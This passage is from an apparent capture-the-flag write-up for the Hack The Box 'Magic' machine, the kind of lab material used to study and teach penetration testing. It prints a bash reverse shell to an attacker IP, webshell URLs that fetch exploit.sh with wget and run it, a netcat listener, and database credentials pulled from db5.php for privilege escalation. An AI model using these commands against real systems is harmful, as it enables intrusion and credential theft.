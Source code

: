 		/bin/bash -i >& /dev/tcp/10.10.14.14/4444 0>&1
		```
	5. Download reverse shell payload into `magic.htb`
		```
		# Payload
		http://10.10.10.185/images/uploads/bingchilling.php.jpg?c=wget+10.10.14.14/exploit.sh+-O+/tmp/exploit.sh
		```
	6. Start `netcat` listener
		```
		┌──(root💀kali)-[~/htb/magic]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 10.10.10.185.
		```
	7. Invoke reverse shell
		```
		http://10.10.10.185/images/uploads/bingchilling.php.jpg?c=chmod+777+/tmp/exploit.sh;/tmp/exploit.sh
		```
	
3. Demo - Image upload bypass and insert webshell
	![](oBIpFJB0O5.gif)





# Privilege Escalation

## Theseus - Enumeration 
1. Since there is a login page (`login.php`), there should be database credentials
	> `db5.php` is included
	{: .prompt-info}
2. Found database creds in `db5.php`
	```php
	private static $dbName = 'Magic' ;
	private static $dbHost = 'localhost' ;
	private static $dbUsername = 'theseus';
	private static $dbUserPassword = 'iamkingtheseus';
	```
	- `theseus:iamkingtheseus`
3. Failed to switch to user `theseus` w/ `iamkingtheseus`
4. Access `mysql` to obtain more credentials
	```
	theseus@ubuntu:/var/www/Magic$ mysql
	
	Command 'mysql' not found, but can be installed with:
	